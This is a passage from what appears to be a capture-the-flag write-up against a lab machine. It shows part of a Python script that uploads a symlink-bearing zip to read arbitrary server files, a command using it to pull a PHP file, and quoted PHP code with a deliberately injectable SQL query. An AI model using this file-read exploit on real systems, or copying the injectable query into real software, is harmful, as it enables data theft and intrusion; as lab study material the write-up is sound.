 ```python
    response = conn.getresponse()
    data = response.read()

    # Close the connection
    conn.close()

    # Print response
    # print(response.status, response.reason)
    # print(data.decode("utf-8"))

    return data


def get_the_link(data):
    soup = BeautifulSoup(data.decode("utf-8"), features="html.parser")
    res = soup.find("section", {"id": "work"})
    link = res.div.a.text
    return f"http://10.10.11.229/{link}"


def get_the_file(link):
    data = requests.get(link)
    data.status_code
    file = data.text
    print(file)


if __name__ == "__main__":

    parser = argparse.ArgumentParser()
    parser.add_argument("-p", help="Path of the file to extract")
    args = parser.parse_args()
    link_path = args.p
    file_name = "file"

    do_the_symlink(link_path, file_name)
    do_the_zip(file_name)
    response = send_the_zip(file_name)
    link = get_the_link(response)
    get_the_file(link)
```

```bash
python3 zipper.py -p /var/www/html/shop/cart.php > ../loot/cart.php
```

## SQL injection

Looking at cart.php, it's kinda funny to read, the dev is basically like: "Yea... I don't really like my boss, sooo I like to spice things up a little".
```sql
<?php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
```